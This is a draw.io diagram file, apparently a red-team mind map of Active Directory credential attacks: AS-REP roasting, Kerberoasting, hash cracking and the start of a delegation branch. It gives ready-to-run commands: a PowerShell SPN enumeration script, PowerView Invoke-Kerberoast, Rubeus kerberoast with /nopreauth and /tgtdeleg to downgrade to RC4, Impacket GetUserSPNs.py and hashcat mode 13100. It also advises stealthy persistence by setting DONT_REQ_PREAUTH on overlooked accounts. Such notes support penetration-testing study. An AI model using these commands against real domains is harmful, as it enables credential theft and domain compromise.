        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-68" value="&lt;p data-end=&quot;89&quot; data-start=&quot;0&quot;&gt;&lt;strong data-end=&quot;19&quot; data-start=&quot;0&quot;&gt;AS-REP Roasting&lt;/strong&gt;&lt;br data-end=&quot;22&quot; data-start=&quot;19&quot;&gt;&lt;br&gt;Red Teams may leverage AS-REP Roasting in two key attack scenarios:&lt;/p&gt;&lt;ul data-is-last-node=&quot;&quot; data-is-only-node=&quot;&quot; data-end=&quot;877&quot; data-start=&quot;91&quot;&gt;&lt;li data-end=&quot;517&quot; data-start=&quot;91&quot;&gt;&lt;p data-end=&quot;517&quot; data-start=&quot;93&quot;&gt;&lt;strong data-end=&quot;108&quot; data-start=&quot;93&quot;&gt;Persistence&lt;/strong&gt;: By enabling the &lt;code data-is-only-node=&quot;&quot; data-end=&quot;144&quot; data-start=&quot;126&quot;&gt;DONT_REQ_PREAUTH&lt;/code&gt; flag on certain accounts, attackers can ensure continued access—even if the account’s password changes. This technique is particularly effective on low-profile systems (like printers or legacy service accounts) that often escape monitoring. Since these accounts are frequently overlooked by blue teams, they offer a stealthy way to maintain access to the domain over time.&lt;/p&gt;&lt;/li&gt;&lt;li data-is-last-node=&quot;&quot; data-end=&quot;877&quot; data-start=&quot;519&quot;&gt;&lt;p data-is-last-node=&quot;&quot; data-end=&quot;877&quot; data-start=&quot;521&quot;&gt;&lt;strong data-end=&quot;545&quot; data-start=&quot;521&quot;&gt;Privilege Escalation&lt;/strong&gt;: In situations where an attacker can modify account attributes but can’t log in or reset passwords (without triggering alerts), AS-REP Roasting provides an alternative. Instead of resetting the password—which is noisy—they can enable the no-preauth flag and extract a crackable hash, potentially leading to full account compromise.&lt;/p&gt;&lt;/li&gt;&lt;/ul&gt;" style="rounded=0;whiteSpace=wrap;html=1;align=left;labelPosition=center;verticalLabelPosition=middle;verticalAlign=top;" parent="1" vertex="1">
          <mxGeometry x="120" y="-230" width="1260" height="170" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-76" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-69" target="zsb6fFKO1eEHvJ3RfYXY-74" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-79" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-69" target="zsb6fFKO1eEHvJ3RfYXY-77" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-84" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-69" target="zsb6fFKO1eEHvJ3RfYXY-80" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-115" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-69" target="zsb6fFKO1eEHvJ3RfYXY-112" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-69" value="&lt;b&gt;look for user accounts (not machine accounts) exposing a service&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;shape=process;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="580" y="1430" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-72" value="&lt;b&gt;GENERIC NOTES&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#76608a;strokeColor=#432D57;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="120" y="-40" width="190" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-73" value="&lt;b&gt;AS-REP ROASTING&lt;/b&gt;&lt;br&gt;&lt;div style=&quot;&quot;&gt;- No pre authentication against domain required&lt;/div&gt;&lt;div style=&quot;&quot;&gt;&lt;br&gt;&lt;/div&gt;&lt;div style=&quot;&quot;&gt;&lt;b&gt;Kerberoasting&lt;/b&gt;&lt;/div&gt;&lt;div style=&quot;&quot;&gt;- authentication to domain required, even if low priv&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;align=left;labelPosition=center;verticalLabelPosition=middle;verticalAlign=top;" parent="1" vertex="1">
          <mxGeometry x="120" y="-20" width="1260" height="170" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-74" value="&lt;div&gt;Powershell script&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="750" y="1560" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-75" value="&lt;div&gt;$search = New-Object DirectoryServices.DirectorySearcher([ADSI]&quot;&quot;)&lt;/div&gt;&lt;div&gt;$search.filter = &quot;(&amp;amp;(objectCategory=person)(objectClass=user)(servicePrincipalName=*))&quot;&lt;/div&gt;&lt;div&gt;$results = $search.Findall()&lt;/div&gt;&lt;div&gt;foreach($result in $results)&lt;/div&gt;&lt;div&gt;{&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; $userEntry = $result.GetDirectoryEntry()&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-host &quot;User&quot;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-Host &quot;====&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-Host $userEntry.name &quot;(&quot; $userEntry.distinguishedName &quot;)&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; Write-host &quot;&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-host &quot;SPNs&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-Host &quot;====&quot;&amp;nbsp; &amp;nbsp; &amp;nbsp;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; foreach($SPN in $userEntry.servicePrincipalName)&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; $SPN&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-host &quot;&quot;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; Write-host &quot;&quot;&lt;/div&gt;&lt;div style=&quot;&quot;&gt;}&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="750" y="1620" width="390" height="320" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-77" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="750" y="1980" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-78" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser -SPN&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="750" y="2040" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-83" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-98" target="zsb6fFKO1eEHvJ3RfYXY-81" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-87" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-98" target="zsb6fFKO1eEHvJ3RfYXY-85" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-91" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-98" target="zsb6fFKO1eEHvJ3RfYXY-89" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-100" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-91" vertex="1" connectable="0">
          <mxGeometry x="-0.894" y="2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-94" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-80" target="zsb6fFKO1eEHvJ3RfYXY-93" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-99" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-80" target="zsb6fFKO1eEHvJ3RfYXY-98" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-80" value="&lt;b&gt;Kerberoasting&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;shape=process;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1310" y="1430" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-81" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1690" y="1730" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-82" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1690" y="1790" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-85" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1690" y="1880" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-86" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Invoke-Kerberoast&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1690" y="1940" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-89" value="&lt;div&gt;Kerberoasting with Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1695" y="2070" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-90" value="&lt;div&gt;C:\Tools&amp;gt; C:\Tools&amp;gt;Rubeus.exe kerberoast /nowrap&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1695" y="2130" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-92" value="&lt;div&gt;&lt;b&gt;We can also Kerberoast a specific user and write the result to a file using the flag /outfile:filename.txt.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;&lt;br&gt;&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;We could use the /pwdsetafter and /pwdsetbefore arguments to Kerberoast accounts whose password was set within a particular date; this can be helpful to us, as sometimes we find legacy accounts with a password set many years ago that is outside of the current password policy and relatively easy to crack.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;&lt;br&gt;&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;We can use the /stats flag to list statistics about Kerberoastable accounts without sending any ticket requests. This can be useful for gathering information and checking the types of encryption the account tickets use.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;&lt;br&gt;&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;The /tgtdeleg flag can be useful for us in situations where we find accounts with the options This account supports Kerberos AES 128-bit encryption or This account supports Kerberos AES 256-bit encryption set, meaning that when we perform a Kerberoast attack, we will get a AES-128 (type 17) or AES-256 (type 18) TGS tickets back which can be significantly more difficult to crack than RC4 (type 23) tickets. We will know the difference because an RC4 encrypted ticket will return a hash that starts with the $krb5tgs$23$* prefix, while AES encrypted tickets will give us a hash that begins with $krb5tgs$18$*.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;&lt;br&gt;&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;b&gt;In cases where we receive the hash of the account with AES encryption (which is harder to crack), we can use /tgtdeleg flag with Rubeus to force RC4 encryption. This may work in some domains where RC4 is built-in as a failsafe for backward compatibility with older services. If successful, we may get a password hash that could crack minutes or even hours faster than if we were trying to crack an AES-encrypted hash.&lt;/b&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;align=left;labelPosition=center;verticalLabelPosition=middle;verticalAlign=top;" parent="1" vertex="1">
          <mxGeometry x="1695" y="2180" width="385" height="500" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-97" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-93" target="zsb6fFKO1eEHvJ3RfYXY-95" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-93" value="hash cracking" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="2180" y="1430" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-95" value="HashCat" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#fff2cc;strokeColor=#d6b656;" parent="1" vertex="1">
          <mxGeometry x="2260" y="1540" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-96" value="hashcat -m 13100 &amp;lt;hash-file&amp;gt; &amp;lt;wordlist&amp;gt;&amp;nbsp; -O" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="2260" y="1600" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-101" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-98" target="zsb6fFKO1eEHvJ3RfYXY-103" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1270" y="2358" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-102" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-101" vertex="1" connectable="0">
          <mxGeometry x="-0.795" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-118" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-98" target="zsb6fFKO1eEHvJ3RfYXY-116" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-98" value="&lt;b&gt;valid domain account and password (or SYSTEM shell/shell as a low-privileged account on a domain-joined host)&lt;/b&gt;" style="rhombus;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="1350" y="1530" width="210" height="190" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-105" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-103" target="zsb6fFKO1eEHvJ3RfYXY-104" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-103" value="Rubeus.exe kerberoast will fail because not authenticated" style="rounded=0;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1210" y="2190" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-109" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fillColor=#dae8fc;strokeColor=#6c8ebf;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-104" target="zsb6fFKO1eEHvJ3RfYXY-107" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-104" value="If we include a user with DONT_REQ_PREAUTH set, it will return a ticket" style="rounded=0;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1165" y="2310" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-107" value="&lt;div&gt;Kerberoasting with Rubeus&amp;nbsp;with /nopreauth&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="755" y="2390" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-108" value="&lt;div&gt;&lt;div&gt;C:\Tools&amp;gt; Rubeus.exe kerberoast /nopreauth:&amp;lt;user&amp;gt; /domain:&amp;lt;fqdn&amp;gt; /spn:&amp;lt;SPN ie:MSSQLSvc/SQL01:1433&amp;gt; /nowrap&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="755" y="2450" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-110" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;b&gt;Note: Instead of /spn we can use /spns:listofspn.txt to try multiple SPNs.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;fillColor=#eeeeee;strokeColor=#36393d;" parent="1" vertex="1">
          <mxGeometry x="755" y="2500" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-111" value="&lt;div&gt;&lt;b&gt;Use -Identity to target&lt;/b&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1690" y="1990" width="390" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-112" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="750" y="2150" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-113" value="&lt;div&gt;GetUserSPNs.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="750" y="2210" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-116" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="1695" y="2730" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-117" value="&lt;div&gt;GetUserSPNs.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt; -request -outputfile &amp;lt;outputfile&amp;gt; -request-user &amp;lt;user-to-request&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1695" y="2790" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-127" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-122" target="zsb6fFKO1eEHvJ3RfYXY-126" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-58" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-122" target="VL_DeuJodb9uclPqMyuw-57" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-100" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-122" target="VL_DeuJodb9uclPqMyuw-99" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-122" value="TYPE" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="250" y="2913" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-129" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-126" target="zsb6fFKO1eEHvJ3RfYXY-128" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="710" y="2953" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-126" value="UNCONSTRAINED" style="rounded=0;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="470" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-131" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-128" target="zsb6fFKO1eEHvJ3RfYXY-130" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="790" y="2953" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-192" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-128" target="zsb6fFKO1eEHvJ3RfYXY-191" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-128" value="ACC TYPE" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="710" y="2913" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-133" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-130" target="zsb6fFKO1eEHvJ3RfYXY-132" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-159" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-130" target="zsb6fFKO1eEHvJ3RfYXY-158" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-163" value="Force auth" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-159" vertex="1" connectable="0">
          <mxGeometry x="-0.277" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-130" value="COMPUTER" style="rounded=0;whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="900" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-136" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-132" target="zsb6fFKO1eEHvJ3RfYXY-134" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
